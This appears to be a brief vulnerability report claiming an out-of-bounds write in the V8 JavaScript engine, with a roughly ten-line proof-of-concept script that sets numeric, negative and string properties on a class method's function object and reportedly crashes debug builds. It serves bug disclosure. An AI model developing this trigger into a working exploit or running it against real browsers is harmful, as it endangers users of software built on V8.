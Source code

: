 An out of bands write exists in v8.

Here is poc:

function SDD() {
    class H {
        ['h']() {}
    }
    let h = H.prototype.h;
	h[1024] = {};
	h["XXX"] = {};
	h[-1] = {};
}
SDD();
SDD();

This PoC crashes in debug.